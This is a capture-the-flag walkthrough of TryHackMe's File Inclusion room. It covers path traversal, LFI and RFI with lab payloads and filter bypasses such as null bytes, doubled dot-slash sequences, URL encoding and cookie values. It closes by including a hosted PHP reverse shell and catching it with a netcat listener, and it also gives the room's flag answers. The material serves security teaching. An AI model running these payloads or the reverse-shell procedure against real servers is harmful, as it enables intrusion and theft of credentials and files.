




# File Inclusion

- [Room information](#room-information)
- [Solution](#solution)
- [References](#references)

## Room information

```text
Type: Walkthrough
Difficulty: Medium
OS: Linux
Subscription type: Premium
Description:
This room introduces file inclusion vulnerabilities, including Local File Inclusion (LFI), 
Remote File Inclusion (RFI), and directory traversal.
```

Room link: [https://tryhackme.com/room/fileinc](https://tryhackme.com/room/fileinc)

## Solution

### Task 1: Introduction

#### What is File inclusion?

This room aims to equip you with the essential knowledge to exploit file inclusion vulnerabilities, including Local File Inclusion (LFI), Remote File Inclusion (RFI), and directory traversal. Also, we will discuss the risk of these vulnerabilities if they're found and the required remediation. We provide some practical examples of each vulnerability as well as hands-on challenges.

In some scenarios, web applications are written to request access to files on a given system, including images, static text, and so on via parameters. Parameters are query parameter strings attached to the URL that could be used to retrieve data or perform actions based on user input. The following diagram breaks down the essential parts of a URL.


For example, parameters are used with Google searching, where GET requests pass user input into the search engine. `https://www.google.com/search?q=TryHackMe`. If you are not familiar with the topic, you can view the [How The Web Works module](https://tryhackme.com/module/how-the-web-works) to understand the concept.  

Let's discuss a scenario where a user requests to access files from a webserver. First, the user sends an HTTP request to the webserver that includes a file to display. For example, if a user wants to access and display their CV within the web application, the request may look as follows, `http://webapp.thm/get.php?file=userCV.pdf`, where the `file` is the parameter and the `userCV.pdf`, is the required file to access.


#### Why do File inclusion vulnerabilities happen?

File inclusion vulnerabilities are commonly found and exploited in various programming languages for web applications, such as PHP that are poorly written and implemented. The main issue of these vulnerabilities is the input validation, in which the user inputs are not sanitized or validated, and the user controls them. When the input is not validated, the user can pass any input to the function, causing the vulnerability.

#### What is the risk of File inclusion?

By default, an attacker can leverage file inclusion vulnerabilities to leak data, such as code, credentials or other important files related to the web application or operating system. Moreover, if the attacker can write files to the server by any other means, file inclusion might be used in tandem to gain remote command execution (RCE).

### Task 2: Deploy the VM

Deploy the attached VM to follow and apply the technique as well as do the challenges. In order to access this VM, please make sure to connect to the [TryHackMe network](https://tryhackme.com/access) via OpenVPN or access it directly from the AttackBox, which can be launched by clicking the blue button on the top-right.

Please visit the link `http://10.10.84.111/`, which will show you the following page:


### Task 3: Path Traversal

#### Path Traversal

Also known as `Directory traversal`, a web security vulnerability allows an attacker to read operating system resources, such as local files on the server running an application. The attacker exploits this vulnerability by manipulating and abusing the web application's URL to locate and access files or directories stored outside the application's root directory.

Path traversal vulnerabilities occur when the user's input is passed to a function such as file_get_contents in PHP. It's important to note that the function is not the main contributor to the vulnerability. Often poor input validation or filtering is the cause of the vulnerability. In PHP, you can use the file_get_contents to read the content of a file. You can find more information about the [function here](https://www.php.net/manual/en/function.file-get-contents.php).

The following graph shows how a web application stores files in `/var/www/app`. The happy path would be the user requesting the contents of userCV.pdf from a defined path `/var/www/app/CVs`.


We can test out the URL parameter by adding payloads to see how the web application behaves. Path traversal attacks, also known as the `dot-dot-slash` attack, take advantage of moving the directory one step up using the double dots `../`. If the attacker finds the entry point, which in this case `get.php?file=`, then the attacker may send something as follows, `http://webapp.thm/get.php?file=../../../../etc/passwd`

Suppose there isn't input validation, and instead of accessing the PDF files at `/var/www/app/CVs` location, the web application retrieves files from other directories, which in this case `/etc/passwd`. Each `../` entry moves one directory until it reaches the root directory `/`. Then it changes the directory to `/etc`, and from there, it read the `passwd` file.


As a result, the web application sends back the file's content to the user.


Similarly, if the web application runs on a Windows server, the attacker needs to provide Windows paths. For example, if the attacker wants to read the `boot.ini` file located in `c:\boot.ini`, then the attacker can try the following depending on the target OS version:

`http://webapp.thm/get.php?file=../../../../boot.ini` or

`http://webapp.thm/get.php?file=../../../../windows/win.ini`

The same concept applies here as with Linux operating systems, where we climb up directories until it reaches the root directory, which is usually .

Sometimes, developers will add filters to limit access to only certain files or directories. Below are some common OS files you could use when testing.

| Location | Description |
|----|----|
|`/etc/issue`|contains a message or system identification to be printed before the login prompt.|
|`/etc/profile`|controls system-wide default variables, such as Export variables, File creation mask (umask), Terminal types, Mail messages to indicate when new mail has arrived|
|`/proc/version`|specifies the version of the Linux kernel|
|`etc/passwd`|has all registered users that have access to a system|
|`/etc/shadow`|contains information about the system's users' passwords|
|`/root/.bash_history`|contains the history commands for root user|
|`/var/log/dmessage`|contains global system messages, including the messages that are logged during system startup|
|`/var/mail/root`|all emails for root user|
|`/root/.ssh/id_rsa`|Private SSH keys for a root or any known valid user on the server|
|`/var/log/apache2/access.log`|the accessed requests for Apache web server|
|`C:\boot.ini`|contains the boot options for computers with BIOS firmware|

---------------------------------------------------------------------------------------

#### What function causes path traversal vulnerabilities in PHP?

Answer: `file_get_contents`

### Task 4: Local File Inclusion - LFI

#### Local File Inclusion (LFI)

LFI attacks against web applications are often due to a developers' lack of security awareness. With PHP, using functions such as `include`, `require`, `include_once`, and `require_once` often contribute to vulnerable web applications. In this room, we'll be picking on PHP, but it's worth noting LFI vulnerabilities also occur when using other languages such as ASP, JSP, or even in Node.js apps. LFI exploits follow the same concepts as path traversal.

In this section, we will walk you through various `LFI` scenarios and how to exploit them.

**Lab #1** - Suppose the web application provides two languages, and the user can select between the `EN` and `AR`

```php
<?PHP 
    include($_GET["lang"]);
?>
```

The PHP code above uses a `GET` request via the URL parameter `lang` to include the file of the page. The call can be done by sending the following HTTP request as follows: `http://webapp.thm/index.php?lang=EN.php` to load the English page or `http://webapp.thm/index.php?lang=AR.php` to load the Arabic page, where `EN.php` and `AR.php` files exist in the same directory.

Theoretically, we can access and display any readable file on the server from the code above if there isn't any input validation. Let's say we want to read the `/etc/passwd` file, which contains sensitive information about the users of the Linux operating system, we can try the following: `http://webapp.thm/get.php?file=/etc/passwd`

In this case, it works because there isn't a directory specified in the `include` function and no input validation.

Now apply what we discussed and try to read `/etc/passwd` file. Also, answer question #1 below.

**Lab #2** - Next, In the following code, the developer decided to specify the directory inside the function.

```php
<?PHP 
    include("languages/". $_GET['lang']); 
?>
```

In the above code, the developer decided to use the `include` function to call PHP pages in the `languages` directory only via `lang` parameters.

If there is no input validation, the attacker can manipulate the URL by replacing the `lang` input with other OS-sensitive files such as `/etc/passwd`.

Again the payload looks similar to the `path traversal`, but the `include` function allows us to include any called files into the current page. The following will be the exploit:

`http://webapp.thm/index.php?lang=../../../../etc/passwd`

Now apply what we discussed, try to read files within the server, and figure out the directory specified in the include function and answer question #2 below.

---------------------------------------------------------------------------------------

#### Give Lab #1 a try to read /etc/passwd. What would the request URI be?

Answer: `/lab1.php?file=/etc/passwd`

#### In Lab #2, what is the directory specified in the include function?

Try to provoke an error by including the file `does_not_exist.xyz`.

This results in the following error message:

```text
Warning: include(includes/does_not_exist.xyz) [function.include]: failed to open stream: No such file or directory in /var/www/html/lab2.php on line 26

Warning: include() [function.include]: Failed opening 'includes/does_not_exist.xyz' for inclusion (include_path='.:/usr/lib/php5.2/lib/php') in /var/www/html/lab2.php on line 26
```

Answer: `includes`

### Task 5: Local File Inclusion - LFI Continued

In this task, we go a little bit deeper into LFI. We discussed a couple of techniques to bypass the filter within the include function.

**Lab #3** - In the first two cases, we checked the code for the web app, and then we knew how to exploit it.

However, in this case, we are performing black box testing, in which we don't have the source code. In this case, errors are significant in understanding how the data is passed and processed into the web app.

In this scenario, we have the following entry point: `http://webapp.thm/index.php?lang=EN`. If we enter an invalid input, such as THM, we get the following error

```text
Warning: include(languages/THM.php): failed to open stream: No such file or directory in /var/www/html/THM-4/index.php on line 12
```

The error message discloses significant information. By entering THM as input, an error message shows what the `include` function looks like: `include(languages/THM.php);`.

If you look at the directory closely, we can tell the function includes files in the languages directory is adding `.php` at the end of the entry. Thus the valid input will be something as follows: `index.php?lang=EN`, where the file `EN` is located inside the given languages directory and named `EN.php`.

Also, the error message disclosed another important piece of information about the full web application directory path which is `/var/www/html/THM-4/`.

To exploit this, we need to use the `../` trick, as described in the directory traversal section, to get out the current folder. Let's try the following:

`http://webapp.thm/index.php?lang=../../../../etc/passwd`

Note that we used 4 `../` because we know the path has four levels `/var/www/html/THM-4`. But we still receive the following error:

```text
Warning: include(languages/../../../../../etc/passwd.php): failed to open stream: No such file or directory in /var/www/html/THM-4/index.php on line 12
```

It seems we could move out of the PHP directory but still, the `include` function reads the input with `.php` at the end! This tells us that the developer specifies the file type to pass to the include function. To bypass this scenario, we can use the NULL BYTE, which is `%00`.

Using null bytes is an injection technique where URL-encoded representation such as %00 or 0x00 in hex with user-supplied data to terminate strings. You could think of it as trying to trick the web app into disregarding whatever comes after the Null Byte.

By adding the Null Byte at the end of the payload, we tell the include function to ignore anything after the null byte which may look like:

`include("languages/../../../../../etc/passwd%00").".php");` which is equivalent to `include("languages/../../../../../etc/passwd");`

**Note**: the `%00` trick is fixed and **not working** with **PHP 5.3.4 and above**.

Now apply what we showed in Lab #3, and try to read files `/etc/passwd`, answer question #1 below.

**Lab #4** - In this section, the developer decided to filter keywords to avoid disclosing sensitive information! The `/etc/passwd` file is being filtered.

There are two possible methods to bypass the filter. First, by using the NullByte `%00` or the current directory trick at the end of the filtered keyword `/.`.. The exploit will be similar to `http://webapp.thm/index.php?lang=/etc/passwd/`. We could also use `http://webapp.thm/index.php?lang=/etc/passwd%00`.

To make it clearer, if we try this concept in the file system using `cd ..`, it will get you back one step; however, if you do `cd .`, It stays in the current directory. Similarly, if we try `/etc/passwd/..`, it results to be `/etc/` and that's because we moved one to the root. Now if we try `/etc/passwd/.`, the result will be `/etc/passwd` since dot refers to the current directory.

Now apply this technique in Lab #4 and figure out to read `/etc/passwd`.

Accessing either `http://10.10.84.111/lab4.php?file=../../../etc/passwd%00` or `http://10.10.84.111/lab4.php?file=../../../etc/passwd/.` gives us the file contents in Lab #4.

**Lab #5** - Next, in the following scenarios, the developer starts to use input validation by filtering some keywords. 

Let's test out and check the error message!

`http://webapp.thm/index.php?lang=../../../../etc/passwd`

We got the following error!

```text
Warning: include(languages/etc/passwd): failed to open stream: No such file or directory in /var/www/html/THM-5/index.php on line 15
```

If we check the warning message in the `include(languages/etc/passwd)` section, we know that the web application replaces the `../` with the empty string. There are a couple of techniques we can use to bypass this.

First, we can send the following payload to bypass it: `....//....//....//....//....//etc/passwd`.

Why did this work?

This works because the PHP filter only matches and replaces the **first** subset string `../` it finds and doesn't do another pass, leaving what is pictured below.


Try out Lab #5 and try to read /etc/passwd and bypass the filter!

Accessing either `http://10.10.84.111/lab5.php?file=....//....//....//....//....//etc/passwd` or `http://10.10.84.111/lab5.php?file=..././..././..././..././/etc/passwd` gives us the file contents in Lab #5.

**Lab #6** -  Finally, we'll discuss the case where the developer forces the include to read from a defined directory!

For example, if the web application asks to supply input that has to include a directory such as: `http://webapp.thm/index.php?lang=languages/EN.php` then, to exploit this, we need to include the directory in the payload like so: `?lang=languages/../../../../../etc/passwd`.

Try this out in Lab #6 and figure what the directory that has to be present in the input field is.

---------------------------------------------------------------------------------------

#### Give Lab #3 a try to read /etc/passwd. What is the request look like?

Specify the payload in the browser URL (and not in the `File Name` text box).

Answer: `/lab3.php?file=../../../../etc/passwd%00`

#### Which function is causing the directory traversal in Lab #4?

Specifying a non-existent file such as `does_not_exist.xyz` give us the  following error message:

```text
Warning: file_get_contents(does_not_exist.xyz) [function.file-get-contents]: failed to open stream: No such file or directory in /var/www/html/lab4.php on line 29
```

Answer: `file_get_contents`

#### Try out Lab #6 and check what is the directory that has to be in the input field?

The answer is given in the "help text" for the `File Name` text box `For example: THM-profile/tryhackme.txt`.

However, entering only `cajac.txt` in the text box gives us this error message:

```text
Access Denied!  
Allowed files at THM-profile folder only! 
```

Answer: `THM-profile`

#### Try out Lab #6 and read /etc/os-release. What is the VERSION_ID value?

Entering `THM-profile/../../../../etc/os-release` in the text box give us the following information

```text
NAME="Ubuntu" VERSION="12.04.5 LTS, Precise Pangolin" ID=ubuntu ID_LIKE=debian PRETTY_NAME="Ubuntu precise (12.04.5 LTS)" VERSION_ID="12.04" 
```

Answer: `12.04`

### Task 6: Remote File Inclusion - RFI

#### Remote File Inclusion - RFI

Remote File Inclusion (RFI) is a technique to include remote files into a vulnerable application. Like LFI, the RFI occurs when improperly sanitizing user input, allowing an attacker to inject an external URL into `include` function. One requirement for RFI is that the `allow_url_fopen` option needs to be `on`.

The risk of RFI is higher than LFI since RFI vulnerabilities allow an attacker to gain Remote Command Execution (RCE) on the server. Other consequences of a successful RFI attack include:

- Sensitive Information Disclosure
- Cross-site Scripting (XSS)
- Denial of Service (DoS)

An external server must communicate with the application server for a successful RFI attack where the attacker hosts malicious files on their server. Then the malicious file is injected into the include function via HTTP requests, and the content of the malicious file executes on the vulnerable application server.

#### RFI steps


The figure above is an example of steps for a successful RFI attack! Let's say that the attacker hosts a PHP file on their own server `http://attacker.thm/cmd.txt` where `cmd.txt` contains a printing message `Hello THM`.

```php
<?PHP echo "Hello THM"; ?>
```

First, the attacker injects the malicious URL, which points to the attacker's server, such as `http://webapp.thm/index.php?lang=http://attacker.thm/cmd.txt`. If there is no input validation, then the malicious URL passes into the include function. Next, the web app server will send a `GET` request to the malicious server to fetch the file. As a result, the web app includes the remote file into include function to execute the PHP file within the page and send the execution content to the attacker. In our case, the current page somewhere has to show the `Hello THM` message.

> [!WARNING]  
> As an attacker, don't host `.php` files to use in RFI vulnerabilities as follows, `http://webapp.thm/index.php?lang=http://attacker.thm/cmd.php`.  
This will case run the code from **your** machine instead of the target machine.

Visit the following lab URL: `http://10.10.84.111/playground.php` to try out an RFI attack.

First we create the `cmd.txt` file

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Walkthroughs/Medium/File_Inclusion]
└─$ echo '<?PHP echo "Hello THM"; ?>' > cmd.txt
```

Then we share the file via a Python HTTP-server

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Walkthroughs/Medium/File_Inclusion]
└─$ python -m http.server 80                   
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

```

Then we try to access the file `http://10.14.61.233/cmd.txt` from the Lab #Playground web page.

### Task 7: Remediation

As a developer, it's important to be aware of web application vulnerabilities, how to find them, and prevention methods. To prevent the file inclusion vulnerabilities, some common suggestions include:

1. Keep system and services, including web application frameworks, updated with the latest version.
2. Turn off PHP errors to avoid leaking the path of the application and other potentially revealing information.
3. A Web Application Firewall (WAF) is a good option to help mitigate web application attacks.
4. Disable some PHP features that cause file inclusion vulnerabilities if your web app doesn't need them, such as `allow_url_fopen` and `allow_url_include`.
5. Carefully analyze the web application and allow only protocols and PHP wrappers that are in need.
6. Never trust user input, and make sure to implement proper input validation against file inclusion.
7. Implement whitelisting for file names and locations as well as blacklisting.

### Task 8: Challenge

Great Job! Now apply the techniques you've learned to capture the flags! Familiarizing yourself with [HTTP Web basics](https://tryhackme.com/room/httpindetail) could help you complete these challenges.

Make sure the attached VM is up and running then visit: `http://10.10.84.111/challenges/index.php`

#### Steps for testing for LFI

1. Find an entry point that could be via `GET`, `POST`, COOKIE, or HTTP header values!
2. Enter a **valid input** to see how the web server behaves.
3. Enter **invalid inputs**, including special characters and common file names.
4. Don't always trust what you supply in input forms is what you intended! Use either a browser address bar or a tool such as Burpsuite.
5. Look for errors while entering invalid input to disclose the current path of the web application; if there are no errors, then trial and error might be your best option.
6. Understand the input validation and if there are any filters!
7. Try the inject a valid entry to read sensitive files

---------------------------------------------------------------------------------------

#### Capture Flag1 at /etc/flag1

Browsing to `http://10.10.84.111/challenges/chall1.php` gives as the following we page



Enter `test` in the text box and capture the request with Burp.

```text
GET /challenges/chall1.php?file=test HTTP/1.1
Host: 10.10.84.111
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Referer: http://10.10.84.111/challenges/chall1.php
Upgrade-Insecure-Requests: 1
Priority: u=0, i
```

Send the request to `Repeater`. The right-click in the page and select `Change request method`.

Finally, change `file=test` to `file=../../../../etc/flag1`.

The request should now look like this:

```text
POST /challenges/chall1.php HTTP/1.1
Host: 10.10.84.111
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Referer: http://10.10.84.111/challenges/chall1.php
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Content-Type: application/x-www-form-urlencoded
Content-Length: 26

file=../../../../etc/flag
```

Send the request and find the answer towards the end of the HTML-page

```html
<---snip--->
        <div>
          <h5>File Content Preview of <b>
                ../../../../etc/flag1
                </b>
          </h5>
          <code>
                F1x3d-iNpu7-f0rrn
          </code>
    </div>  
  </body>
</html>
```

Answer: `F1x3d-iNpu7-f0rrn`

#### Capture Flag2 at /etc/flag2

Browsing to `http://10.10.84.111/challenges/chall2.php` gives as the following we page after a refresh



Press `F12` to start DevTools and select the `Storage` tab.

Select `http://10.10.84.111` under `Cookies` in the left menu if needed.

Note the `THM` cookie with the value of `Guest`.

Change the cookie value to `Admin` and refresh the page with `F5`



Note the error message that hints that the cookie value sets the requested file and that a `.php` extension is added:

```text
Warning: include(includes/Admin.php) [function.include]: failed to open stream: No such file or directory in /var/www/html/chall2.php on line 37

Warning: include() [function.include]: Failed opening 'includes/Admin.php' for inclusion (include_path='.:/usr/lib/php5.2/lib/php') in /var/www/html/chall2.php on line 37
```

Change the cookie to `../../../../etc/flag%00` and refresh the web page again.

The result is:

```text
Current Path
/var/www/html

File Content Preview of ../../../../etc/flag2
Welcome ../../../../etc/flag2

c00k13_i5_yuMmy1 
```

Answer: `c00k13_i5_yuMmy1`

#### Capture Flag3 at /etc/flag3

Browsing to `http://10.10.84.111/challenges/chall3.php` gives as the following we page after a refresh



There is no clear indication on how to proceed but there used to be a hint saying `Not everything is filtered!`.

Trying to access `../../../../etc/flag3` gives the following error message:

```text
Warning: include(etcflag.php) [function.include]: failed to open stream: No such file or directory in /var/www/html/chall3.php on line 30

Warning: include() [function.include]: Failed opening 'etcflag.php' for inclusion (include_path='.:/usr/lib/php5.2/lib/php') in /var/www/html/chall3.php on line 30
```

There definitely is some filtering involved. Both `../` and `/` seems to be filtered!

Send the request to `Repeater`in Burp.

Let's try URL-encoding the `/`-character, changing the method to `POST` and adding a NULL byte at the end.

The resulting request looks like this:

```text
POST /challenges/chall3.php HTTP/1.1
Host: 10.10.84.111
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Content-Type: application/x-www-form-urlencoded
Content-Length: 39

file=..%2F..%2F..%2F..%2Fetc%2Fflag3%00
```

Send the request and find the answer towards the end of the HTML-page

```html
<---snip--->
        </h5>
          <code>P0st_1s_w0rk1in9</code>
      </div>  
    </body>
</html>
```

Answer: `P0st_1s_w0rk1in9`

#### Gain RCE in Lab #Playground /playground.php with RFI to execute the hostname command. What is the output?

Go back to `http://10.10.84.111/playground.php` and enter `/etc/hosts` in the text box.

The answer is included at the bottom of the output

```text
127.0.0.1  localhost
::1        localhost ip6-localhost ip6-loopback
fe00::0    ip6-localnet
ff00::0    ip6-mcastprefix
ff02::1    ip6-allnodes
ff02::2    ip6-allrouters
172.17.0.3 lfi-vm-thm-f8c5b1a78692
```

But if we want to practice getting RCE we can do the following.

**Step 1** - Prepare a reverse PHP shell

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Walkthroughs/Medium/File_Inclusion]
└─$ webshells                                                 

> webshells ~ Collection of webshells

/usr/share/webshells
├── asp
├── aspx
├── cfm
├── jsp
├── laudanum -> /usr/share/laudanum
├── perl
└── php
┌──(kali㉿kali)-[/usr/share/webshells]
└─$ cd php                                                                       

┌──(kali㉿kali)-[/usr/share/webshells/php]
└─$ ls -l 
total 36
drwxr-xr-x 2 root root  4096 Aug 18  2024 findsocket
-rw-r--r-- 1 root root  2800 Nov 20  2021 php-backdoor.php
-rwxr-xr-x 1 root root  5491 Nov 20  2021 php-reverse-shell.php
-rw-r--r-- 1 root root 13585 Nov 20  2021 qsd-php-backdoor.php
-rw-r--r-- 1 root root   328 Nov 20  2021 simple-backdoor.php

┌──(kali㉿kali)-[/usr/share/webshells/php]
└─$ cp php-reverse-shell.php /mnt/hgfs/Wargames/TryHackMe/Walkthroughs/Medium/File_Inclusion 

┌──(kali㉿kali)-[/usr/share/webshells/php]
└─$ cd /mnt/hgfs/Wargames/TryHackMe/Walkthroughs/Medium/File_Inclusion 

┌──(kali㉿kali)-[/mnt/…/TryHackMe/Walkthroughs/Medium/File_Inclusion]
└─$ vi php-reverse-shell.php     

┌──(kali㉿kali)-[/mnt/…/TryHackMe/Walkthroughs/Medium/File_Inclusion]
└─$ head -n15 php-reverse-shell.php                                        
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
//
// Usage
// -----
// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.14.61.233';  // CHANGE THIS
$port = 12345;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
```

**Step 2** - Share it via HTTP

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Walkthroughs/Medium/File_Inclusion]
└─$ python -m http.server 80    
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

```

**Step 3** - Start a netcat listener

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Walkthroughs/Medium/File_Inclusion]
└─$ nc -lvnp 12345
listening on [any] 12345 ...

```

**Step 4** - Include the PHP reverse shell

Enter `http://10.14.61.233/php-reverse-shell.php` in the text box in the Lab Playground web page.

**Step 5** - Get the answer in the reverse shell

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Walkthroughs/Medium/File_Inclusion]
└─$ nc -lvnp 12345
listening on [any] 12345 ...
connect to [10.14.61.233] from (UNKNOWN) [10.10.84.111] 34392
Linux lfi-vm-thm-f8c5b1a78692 5.15.0-1064-aws #70~20.04.1-Ubuntu SMP Fri Jun 14 15:42:13 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
 12:05:43 up  3:15,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ hostname
lfi-vm-thm-f8c5b1a78692
$ 
```

Answer: `lfi-vm-thm-f8c5b1a78692`

For additional information, please see the references below.

## References

- [Burp suite - Documentation](https://portswigger.net/burp/documentation)
- [Burp suite - Homepage](https://portswigger.net/burp)
- [DevTools - Chrome Docs](https://developer.chrome.com/docs/devtools/)
- [DevTools - Firefox User Docs](https://firefox-source-docs.mozilla.org/devtools-user/)
- [DevTools - MDN](https://developer.mozilla.org/en-US/docs/Learn_web_development/Howto/Tools_and_setup/What_are_browser_developer_tools)
- [Directory traversal attack - Wikipedia](https://en.wikipedia.org/wiki/Directory_traversal_attack)
- [File Inclusion/Path traversal - HackTricks](https://book.hacktricks.wiki/en/pentesting-web/file-inclusion/index.html)
- [File inclusion vulnerability - Wikipedia](https://en.wikipedia.org/wiki/File_inclusion_vulnerability)
- [head - Linux manual page](https://man7.org/linux/man-pages/man1/head.1.html)
- [nc - Linux manual page](https://linux.die.net/man/1/nc)
- [netcat - Wikipedia](https://en.wikipedia.org/wiki/Netcat)
- [Path Traversal - OWASP](https://owasp.org/www-community/attacks/Path_Traversal)
- [Percent-encoding - Wikipedia](https://en.wikipedia.org/wiki/Percent-encoding)
- [Repeater - Burp Documentation](https://portswigger.net/burp/documentation/desktop/tools/repeater)
- [Testing for File Inclusion - WSTG - OWASP](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_File_Inclusion)
